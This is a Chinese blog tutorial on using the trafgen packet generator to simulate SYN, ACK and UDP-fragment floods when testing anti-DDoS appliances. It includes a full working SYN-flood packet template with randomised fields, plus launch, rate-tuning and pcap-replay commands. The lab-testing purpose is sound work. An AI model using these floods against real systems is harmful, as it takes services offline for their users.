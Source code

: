 ```yaml
---
title: 高性能流量生成工具trafgen(DDoS模拟)
layout: post
author: WenfengShi
category: 技术
tags: [network, security, tools]
---
```

> 因项目需要，自己需要对主流的几家抗DDoS设备做测评，当然了最专业的是使用Spirent TestCenter，但受限于其他因素，最终决定搭建一个软件环境来进行相关的DDoS测试。

> 本文主要讲解的是如何使用trafgen工具发起DDoS攻击(syn flood, ack flood等等)  
  
> synflood攻击、ackflood攻击、UDP fragment攻击的详细配置文件见 [github ddos-dos-tools][1]  

## 工具选择
1. 开源的流量生成工具很多，可用于模拟DoS攻击的工具也不在少数，如hping、scapy（python库）等等，但均存在着不足，如性能不够，不能模拟DDoS攻击（攻击流IP和PORT不能动态变化）
2. 通过详细的对比测试（同hping、scapy、LOIC等对比测试，具体数据不宜公开），最后统一选择了**netsniff-ng**套件中的**trafgen**攻击，其在测试环境中可达到**24万pps**的SYNFLOOD攻击，是一款高速、多线程网络数据包生成工具
3. trafgen 工具能够动态生成攻击IP和端口号，能够通过配置文件动态修改攻击包的内容

## 简单使用
### 1. 安装
trafgen属于netsniff-ng套件，是一款linux下的工具，安装很方便，通过系统的在线安装工具即可完成安装，如centos下`yum install netsniff-ng`即可
### 2. 使用（SYN Flood攻击）
1. 工具的比较简单，主要是配置文件的编写，假设已经写好了一个synflood配置文件
- 键入命令`trafgen --cpp --dev ens33 --conf synflood.trafgen --verbose`即可发起攻击
- 进一步的还可通过`trafgen --cpp --dev ens33 --conf synflood.trafgen --verbose --gap 1000` （以毫秒为单位）来调节速度
- 进一步的还可通过`trafgen --cpp --dev ens33 --conf synflood.trafgen --verbose --kernel-pull 20` (默认10us）来调节速度
- 详细的可以`man trafgen`

2. 配置文件解读（以synflood.trafgen文件为例）
- *synflood.trafgen* 模版，trafgen就是通过该文件来生成特定的数据包的！看配置文件的注释基本能清除如何修改

```
/* TCP SYN attack ( 64byte )
 * Command example:
 *  trafgen --cpp --dev em2 --conf synflood.trafgen --verbose
 * Note: dynamic elements "drnd()" make trafgen slower
 */

#define ETH_P_IP	0x0800

#define SYN		(1 << 1)
#define ACK		(1 << 4)
#define ECN		(1 << 6)

{
  /* --- Ethernet Header --- */
  /* NEED ADJUST */
  // 0x00, 0x12, 0xc0, 0x02, 0xac, 0x56,  # MAC Destination
  // 0x00, 0x12, 0xc0, drnd(3),  # MAC Source
  0xf4, 0xe9, 0xd4, 0x8d, 0x04, 0x82, # MAC Destination
  0xf4, 0xe9, 0xd4, 0x8c, 0xe2, 0xa2, # MAC Source
  
  const16(ETH_P_IP),
  /* IPv4 Version, IHL, TOS */
  0b01000101, 0,
  /* IPv4 Total Len */
  const16(46),
  /* IPv4 Ident */
  drnd(2),
  //const16(2),

  /* IPv4 Flags, Frag Off */
  0b01000000, 0,
  /* IPv4 TTL */
  64,
  /* Proto TCP */
  0x06,
  /* IPv4 Checksum (IP header from, to) */
  csumip(14, 33),

  /* NEED ADJUST */
  // 10, 10, 88, drnd(1), # Source IP
  10, 10, 88, 173,  # Source IP
  10, 10, 88, 172, # Dest IP

  /* TCP Source Port */
  drnd(2),
  /* TCP Dest Port */
  const16(80),
  /* TCP Sequence Number */
  drnd(4),
  /* TCP Ackn. Number */
  const32(0), /* NOTICE ACK==zero with SYN packets */

  /* TCP Header length + Flags */
  //const16((0x5 << 12) | SYN | ECN)	/* TCP SYN+ECN Flag */
  //const16((0x5 << 12) | SYN | ACK)	/* TCP SYN+ACK Flag */
  const16((0x5 << 12) | SYN)		/* TCP SYN Flag */
  //const16((0x5 << 12) | ACK)		/* TCP ACK Flag */

  /* Window Size */
  const16(16),
  /* TCP Checksum (offset IP, offset TCP) */
  csumtcp(14, 34),
  const16(0), /*PAD*/
  
  /* Data */
  "SYNswf"
}
```

- 配置文件可通过`drnd()`函数来实现对应内容的动态生成，如IP、MAC地址等，但是会影响性能

![image_1b6bf8ooa3im1ioc1kc7aeu1qo89.png-6kB][2]

- 修改MAC地址（攻击/被攻击MAC地址）

![image_1b6bfeukr5m628h14ciupq1tnnm.png-11.8kB][3]

- 修改IP地址和攻击协议及端口号，`const16()`将对应的十进制数转换成一个16位的二进制数

![image_1b6bftaek14a4il1fp5l3dr5213.png-15kB][4]

- 修改位SYN标志(根据情况也可修改为其他的)

![image_1b6bfv9751ojs1g6klulc4jaak1g.png-11.6kB][5]

### 3. ACKFlood 攻击
- 配置文件见 [github ddos-dos-tools][6]

### 4. UDP fragment 攻击
- 配置文件见 [github ddos-dos-tools][7]

### 5. 退出命令
统一退出命令`pgrep trafgen | xargs kill -s 9`


## 其他
1. 在trafgen性能仍打不到要求的情况下，可通过netsniff-ng攻击进行流量回放，如下
- 先捕获synfloog攻击数据包
`netsniff-ng --in ens33 --out synflood.pcap --silent --verbose --filter 'ether src 00:50:56:ab:a5:3f'`
`trafgen --cpp --dev ens33 --conf synflood.trafgen --verbose`
- 再重放synflood攻击数据包
`netsniff-ng --in synflood.pcap --out ens33 --silent --prio-high --verbose`
2. 在用trafgen进行实时流量生成或者netsniff-ng重放时，还可通过工具`tc`进行流量控制，具体请见["linux流量控制工具tc](http://)一文，简单举例如下
![image_1b6bgp1mntnf15a61bppjvs1f7a1t.png-15.8kB][8]



  [1]: https://github.com/wenfengshi/ddos-dos-tools
  [2]: http://static.zybuluo.com/wuzhimang/mhfkf1drooxo2ua6ty5cceed/image_1b6bf8ooa3im1ioc1kc7aeu1qo89.png
  [3]: http://static.zybuluo.com/wuzhimang/c9tv8lr5a7elsipj8zwjl6tl/image_1b6bfeukr5m628h14ciupq1tnnm.png
  [4]: http://static.zybuluo.com/wuzhimang/hujkjhes3d7n42iptoaovv2o/image_1b6bftaek14a4il1fp5l3dr5213.png
  [5]: http://static.zybuluo.com/wuzhimang/28r16zkja4memce251azvmx4/image_1b6bfv9751ojs1g6klulc4jaak1g.png
  [6]: https://github.com/wenfengshi/ddos-dos-tools
  [7]: https://github.com/wenfengshi/ddos-dos-tools
  [8]: http://static.zybuluo.com/wuzhimang/b16skp1a811ullz8hfuzq0h0/image_1b6bgp1mntnf15a61bppjvs1f7a1t.png
